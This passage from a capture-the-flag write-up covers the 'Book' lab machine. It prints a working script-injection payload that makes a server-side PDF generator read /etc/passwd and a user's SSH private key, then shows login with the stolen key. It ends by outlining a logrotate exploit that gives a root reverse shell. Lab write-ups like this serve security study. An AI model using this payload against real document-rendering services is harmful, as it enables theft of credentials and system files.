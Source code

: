 Then, we download the Collection pdf from the admin panel. The pdf file is
populated with the contents of /etc/passwd. Upon reading, we find 1 user
with a login shell, whose name is "reader". We use the same vulnerability
as before to exfil reader's ssh key:

```
```
 <script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///home/reader/.ssh/id_rsa");
x.send();
</script> 
```

We then download the collection pdf which is populated with the user's priv key.
The document's width not being adapted for such file, we move the pdf file to
our windows box, open it with Acrobat Reader and are able to read whole contents
of the key. When moving the key back to our Linux Box, we use `dos2unix` to
remove the CRLF.

```
$ ssh -i reader_id_rsa reader@book.htb
reader@book:~$ cat user.txt | wc -c
33
```
We owned user.

# PrivEscalation:
I did not realize PrivEsc before the box got retired, but read other player's
writeups for it. Key take-aways were:
 - Use pspy and watch what commands are run at the moment
 - Find an odd `logrotate` command, check its version: 3.11.0
 - Google logrotate v3.11.0 & find the exploit called logrotten
 - Use exploit, get reverse shell as root, win the box



Shad


